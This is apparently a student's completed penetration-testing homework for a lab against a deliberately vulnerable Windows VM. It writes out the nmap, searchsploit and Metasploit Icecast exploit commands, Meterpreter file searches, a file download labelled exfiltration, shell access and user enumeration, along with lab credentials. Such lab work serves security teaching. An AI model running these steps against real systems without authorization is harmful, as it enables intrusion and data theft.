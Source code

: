 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 ![Nmapcommand](images/Nmap.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer:searchsploit command in Kali
     ![searchsploit](images/searchsploit.PNG)
     2.
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
     ![msfconsole](images/msfconsole.PNG)

4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:search icecast
     ![msfconsole-search](images/msfconsole-search.PNG)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     ![use](images/use.PNG)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20
 ![set-rhosts](images/set-rhosts.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
 ![run](images/run.PNG)
   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: `search -f *secretfile*.txt`
  ![secretfile location](images/secret-filepath.PNG)
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
  ![recipe filepath](images/recipe-filepath.PNG)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download
   ![download](images/download.PNG)

![downloaded file on kali](images/kali-ls.PNG)
8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![suggester](images/suggester.PNG)

#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_all_logged_on_users
 ![Enumerate all logged in users](images/enumerate-loggedusers.PNG)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
  ![shell](images/shell.PNG)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
![systeminfo](images/systeminfo.PNG)


---
